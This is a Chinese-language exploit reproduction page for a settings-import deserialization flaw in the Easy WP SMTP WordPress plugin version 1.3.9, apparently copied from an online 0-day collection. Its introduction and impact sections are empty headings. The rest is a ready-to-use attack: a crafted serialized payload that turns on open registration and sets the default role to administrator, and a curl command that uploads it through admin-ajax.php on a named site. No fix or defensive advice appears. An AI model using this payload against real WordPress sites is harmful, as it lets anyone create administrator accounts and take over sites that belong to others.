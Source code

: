 # WordPress Plugin - Easy WP SMTP 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Wordpress/22.html](http://book.iwonder.run/0day/Wordpress/22.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

我们首先搭建一个 wordpress 站点，安装 v1.3.9 版本的 Easy WP SMTP，并进行相关配置。

在以下概念验证中，我将用于 swpsmtp_import_settings 上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users_can_register）并将用户默认角色（default_role）设置为数据库中的“管理员”。

1.创建一个文件名“ /tmp/upload.txt”，并添加以下内容：

```
a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";} 
```

2.上传文件

```
$ curl https://0-sec.org/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt' 
```

![image](img/97470b159ff7734ed2a31c73a51cc6f0.png)

